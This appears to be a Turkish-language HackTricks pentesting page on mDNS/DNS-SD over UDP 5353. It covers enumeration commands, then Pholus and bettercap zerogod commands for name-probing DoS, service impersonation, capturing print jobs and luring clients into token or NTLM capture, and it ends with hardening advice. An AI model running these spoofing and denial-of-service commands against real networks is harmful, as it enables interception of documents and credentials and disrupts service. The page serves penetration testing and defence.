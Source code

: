 # 5353/UDP Çoklu Yayın DNS (mDNS) ve DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

Çoklu Yayın DNS (mDNS), tekil bir DNS sunucusu olmadan yerel bir bağlantı içinde DNS benzeri ad çözümü ve hizmet keşfi sağlar. UDP/5353 ve 224.0.0.251 (IPv4) ile FF02::FB (IPv6) çoklu yayın adreslerini kullanır. DNS Hizmet Keşfi (DNS-SD, genellikle mDNS ile birlikte kullanılır), PTR, SRV ve TXT kayıtları aracılığıyla hizmetleri listelemek ve tanımlamak için standart bir yol sağlar.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Anahtar protokol detayları, saldırılar sırasında sıkça kullanacağınız:
- .local alanındaki isimler mDNS aracılığıyla çözülür.
- QU (Query Unicast) biti, çoklu yayın soruları için bile tekil yanıtlar talep edebilir.
- Uygulamalar, yerel bağlantıdan kaynaklanmayan paketleri göz ardı etmelidir; bazı yığınlar hala bunları kabul etmektedir.
- Sondalama/duyurma, benzersiz ana bilgisayar/hizmet isimlerini zorlar; burada müdahale etmek, DoS/"isim işgali" koşulları yaratır.

## DNS-SD hizmet modeli

Hizmetler, .local altında _<service>._tcp veya _<service>._udp olarak tanımlanır, örneğin _ipp._tcp.local (yazıcılar), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) vb. _services._dns-sd._udp.local ile türleri keşfedin, ardından keşfedilen örnekleri SRV/TXT/A/AAAA'ya çözün.

## Ağ Keşfi ve Sayımı

- nmap hedef taraması (bir ana bilgisayarda doğrudan mDNS):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap yayın keşfi (segmenti dinleyin ve tüm DNS-SD türlerini/örneklerini sayın):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# Hizmet türlerini listele
avahi-browse -bt _services._dns-sd._udp
# Tüm hizmetleri tarayın ve ana bilgisayar/port'a çözün
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# Tüm HTTP hizmetlerini tarayın
dns-sd -B _http._tcp
# Hizmet türlerini sayın
dns-sd -B _services._dns-sd._udp
# Belirli bir örneği SRV/TXT'ye çözün
dns-sd -L "My Printer" _ipp._tcp local
```
- tshark ile paket yakalama:
```bash
# Canlı yakalama
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Sadece DNS-SD hizmet listesi sorgularını
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

İpucu: Bazı tarayıcılar/WebRTC, yerel IP'leri maskelemek için geçici mDNS ana bilgisayar adları kullanır. Eğer ağda rastgele-UUID.local adayları görüyorsanız, bunları mDNS ile çözerek yerel IP'lere geçiş yapın.

## Saldırılar

### mDNS isim sondalama müdahalesi (DoS / isim işgali)

Sondalama aşamasında, bir ana bilgisayar isim benzersizliğini kontrol eder. Sahte çelişkilerle yanıt vermek, yeni isimler seçmesini veya başarısız olmasını zorlar. Bu, hizmet kaydı ve keşfini geciktirebilir veya engelleyebilir.

Pholus ile örnek:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Servis sahteciliği ve taklit (MitM)

Rekabetçi DNS-SD hizmetlerini (yazıcılar, AirPlay, HTTP, dosya paylaşımları) taklit ederek istemcileri sizinle bağlantı kurmaya zorlayın. Bu özellikle şunlar için faydalıdır:
- _ipp._tcp veya _printer._tcp taklit ederek belgeleri yakalamak.
- İstemcileri token/cookie toplamak veya yükler iletmek için HTTP/HTTPS hizmetlerine çekmek.
- Windows istemcileri taklit edilen hizmetlere kimlik doğrulaması yaparken NTLM iletim teknikleri ile birleştirmek.

bettercap’in zerogod modülü (mDNS/DNS-SD sahtecisi/taklitçisi) ile:
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Ayrıca genel LLMNR/NBNS/mDNS/WPAD sahtecilik ve kimlik bilgisi yakalama/iletim iş akışlarına bakın:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Son uygulama sorunları hakkında notlar (engellemeler/süreklilik için yararlıdır)

- Avahi erişilebilirlik-iddası ve D-Bus çökme hataları (2023), avahi-daemon'u Linux dağıtımlarında sonlandırabilir (örneğin, CVE-2023-38469..38473, CVE-2023-1981), hedef ana bilgisayarlarda hizmet keşfini kesintiye uğratır.
- Cisco IOS XE Kablosuz LAN Kontrolörü mDNS geçidi DoS (2024, CVE-2024-20303), komşu saldırganların yüksek CPU kullanımı sağlamasına ve AP'leri koparmasına olanak tanır. VLAN'lar arasında bir mDNS geçidi ile karşılaşırsanız, hatalı veya yüksek hızlı mDNS altında istikrarına dikkat edin.

## Savunma dikkate alımları ve OPSEC

- Segment sınırları: 224.0.0.251/FF02::FB'yi güvenlik bölgeleri arasında yönlendirmeyin, mDNS geçidi açıkça gerekli olmadıkça. Keşfi köprülemek zorundaysanız, izin listelerini ve hız sınırlamalarını tercih edin.
- Windows uç noktaları/sunucular:
- mDNS üzerinden ad çözümlemesini zorla devre dışı bırakmak için kayıt defteri değerini ayarlayın ve yeniden başlatın:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- Yönetilen ortamlarda, yerleşik “mDNS (UDP-In)” Windows Defender Güvenlik Duvarı kuralını devre dışı bırakın (en azından Alan profilinde) böylece ev/gezinme işlevselliğini korurken gelen mDNS işlemesini engelleyin.
- Daha yeni Windows 11 sürümlerinde/GPO şablonlarında, “Bilgisayar Yapılandırması > Yönetim Şablonları > Ağ > DNS İstemcisi > çoklu yayın DNS (mDNS) protokolünü yapılandır” politikasını kullanın ve Devre Dışı olarak ayarlayın.
- Linux (Avahi):
- Gerekmediğinde yayınlamayı kısıtlayın: `disable-publishing=yes` ayarlayın ve `/etc/avahi/avahi-daemon.conf` dosyasında `allow-interfaces=` / `deny-interfaces=` ile arayüzleri kısıtlayın.
- `check-response-ttl=yes` kullanmayı düşünün ve kesinlikle gerekli olmadıkça `enable-reflector=yes` kullanmaktan kaçının; yansıtma sırasında `reflect-filters=` izin listelerini tercih edin.
- macOS: Belirli alt ağlar için Bonjour keşfi gerekmediğinde, ana bilgisayar/ağ güvenlik duvarlarında gelen mDNS'yi kısıtlayın.
- İzleme: `_services._dns-sd._udp.local` sorgularında olağandışı artışlar veya kritik hizmetlerin SRV/TXT'lerinde ani değişiklikler için uyarı verin; bunlar sahtecilik veya hizmet taklidi göstergeleridir.

## Araçlar hızlı referansı

- nmap NSE: `dns-service-discovery` ve `broadcast-dns-service-discovery`.
- Pholus: aktif tarama, ters mDNS taramaları, DoS ve sahtecilik yardımcıları.
```bash
# Pasif dinleme (zaman aşımı saniyeleri)
sudo python3 pholus3.py <iface> -stimeout 60
# Hizmet türlerini listele
sudo python3 pholus3.py <iface> -sscan
# Genel mDNS istekleri gönder
sudo python3 pholus3.py <iface> --request
# Bir alt ağın ters mDNS taraması
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: mDNS/DNS-SD hizmetlerini keşfetme, kaydetme, duyurma ve taklit etme (yukarıdaki örneklere bakın).

## Sahtecilik/MitM

Bu hizmet üzerinden gerçekleştirebileceğiniz en ilginç saldırı, istemci ile gerçek sunucu arasındaki iletişimde bir MitM gerçekleştirmektir. Hassas dosyaları (yazıcı ile iletişimi MitM) veya hatta kimlik bilgilerini (Windows kimlik doğrulaması) elde etme şansınız olabilir.\
Daha fazla bilgi için kontrol edin:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Referanslar

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD keşfi, sahtecilik, taklit)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
